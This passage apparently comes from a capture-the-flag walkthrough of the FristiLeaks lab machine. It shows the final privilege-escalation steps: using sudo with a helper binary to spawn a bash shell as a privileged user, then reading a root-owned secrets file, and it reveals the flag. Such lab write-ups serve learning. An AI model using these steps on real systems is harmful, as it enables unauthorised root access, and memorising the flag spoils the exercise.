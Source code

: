    (u flag to choose user)
   ![terminal command](https://i.imgur.com/IUPBUNw.png)
OK , saw the correct way to run this program is with a terminal command.
So let's give us the full privilege for the *bash shell*.

    sudo -u fristi ./doCom /bin/bash

So now we can go to the root folder.

    cd /root
Check the files in it.

    ls -al
We can see a text file, so open it.

    cat fristileaks_secrets.txt

![Finish](https://i.imgur.com/HCFOKpj.png)

## The flag is:

***y0u_kn0w_y0u_l0ve_fr1st1***

